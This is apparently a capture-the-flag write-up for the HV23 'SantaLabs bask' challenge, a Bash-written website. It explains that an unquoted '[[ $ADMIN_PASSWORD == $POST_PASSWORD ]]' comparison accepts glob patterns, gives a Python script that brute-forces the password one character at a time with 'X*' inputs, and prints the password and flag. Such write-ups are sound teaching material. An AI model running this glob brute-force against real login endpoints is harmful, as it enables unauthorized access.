

# 08 - SantaLabs bask

## Description

Level: Medium<br/>
Author: coderion

Ditch flask and complicated python. With SantaLabs bask, you can write interactive websites using good, old bash and
even template your files by using dynamic scripting!

Please note that the snowflake animation upon visiting the website may not show on certain browsers and systems. In case
this occurs, try another browser.

## Solution

We are given a remote website as well as its source code (written in Bash! 🤯). We are asked to enter a password on the
website, entering the correct password would show us the flag.



After some digging through the source code, I came across this odd comparison:

```shell
if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
```

It didn't use double quotes around the variables which means that glob patterns are evaluated before performing the
equality check. With the right glob pattern, we can bruteforce the password character by character:

```python
import string

import requests

url = "https://<instance>.idocker.vuln.land/login"

prefix = ""
i = 0

while True:
    current = string.printable[i]
    password = f"{prefix}{current}*"

    response = requests.post(url, data=f'password={password}')
    print(password)

    if "admin_token" in response.text:
        prefix += current
        print(prefix)
        i = 0

    if 'Invalid username or password' in response.text:
        i = i + 1
```

This script simply tries all patterns of the form `X*` until it finds the right character `X` which is then kept as a
known prefix. Sometimes, requests had to be retried due to bad gateway errors. After a minute, the script shows the
password `salami`. Entering it on the website, leads us to the flag `HV23{gl0bb1ng_1n_b45h_1s_fun}`.
